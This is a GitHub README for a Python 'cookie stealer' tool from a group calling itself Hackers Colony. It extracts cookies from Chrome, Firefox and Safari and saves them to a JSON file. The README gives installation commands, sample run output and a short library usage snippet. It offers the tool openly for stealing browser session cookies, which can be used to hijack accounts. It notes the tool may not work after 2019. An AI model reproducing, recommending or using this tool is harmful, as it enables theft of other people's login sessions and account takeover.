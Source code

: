 # HCO-COOKIE-STEALER

🔪🍪 Extracts cookies from well known browsers 

***NOTE: THIS PROJECT MAY NOT WORK AS OF 2019***

## Installation

For ***Windows*** users use the file `win-installer.py` to install, make sure you have package manager [pip](https://pip.pypa.io/en/stable/) installed.

```bash
python3 win-installer
```

For ***Linux*** and ***MacOS*** Users use the package manager [pip](https://pip.pypa.io/en/stable/) to install the requirements.

```bash
pip3 install -r requirments.txt
```

*Note for Windows users: If the file `win-installer.py` doesnt work then you will need to install [MS Visual Studio 2015](https://www.visualstudio.com/en-us/downloads/download-visual-studio-vs.aspx) (Community Edition) with C/C++ compilers, and then install requirements using pip with the following command:* `pip3 install -r requirments.txt`

## Usage

*Usage as a executable:* This will save all the cookies in 'cookies.json' and will show logs files.

```bash
$ python3 CookieStealer
 
***   RUNNING 'CookieStealer.py'   ***

[!]Getting chrome cookies...
    [+]Got chrome cookies without any exceptions!
[!]Getting chrome firefox...
    [+]Got firefox cookies without any exceptions!
[!]Getting safari cookies...
    [+]Got safari cookies without any exceptions!
[!]Creating dict for all cookies found...
    [!]Creating dict for chrome browser cookies...
        [+]Chrome browser cookie dict created!
    [!]Creating dict for firefox browser cookies...
        [+]Firefox browser cookie dict created!
    [!]Creating dict for safari browser cookies...
        [+]Safari browser cookie dict created!
    [!]Saving the duct in json file...
        [+]Cookie list saved to the 'cookies.json' file!

***  COOKIES ARE SAVED TO 'cookies.json' FILE    ***
***  EXITING PYTHON  ***
```

*Usage as a library:* This will use the browsercookie library to get cookiejar objects from the cookie from major browser.

```python
import lib_bc

# Get Chrome browser cookies:
ChromeCookieJar = lib_bc.chrome()

# Get Firefox browser cookies:
FirefoxCookieJar = lib_bc.firefox()

# Get Safari browser cookies:
SafariCookieJar = lib_bc.safari()

''' more code... '''
```


## Browser Support

* ***Chrome***
* ***Firefox***
* ***Safari***

## Acknowledgements

* **MZN-KING** - For initializing the this project.
* **MZN-KING** - For making the [browsercookie library](https://www.github.com/MZN-KING)
  * More acknowledgements at richardpenman repo
## Contributing

Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

## YouTube Channels

[Hackers Colony Official](https://youtube.com/channel/UCXnBZRpLD7QzcJsUKBF-cKw)
[Hackers Colony Tech](https://youtube.com/channel/UCEey4KPWqWGGktb4Me8exeA)
[Hackers Colony](https://youtube.com/channel/UCdoWbP5TmqnrbpenTF7npSA)
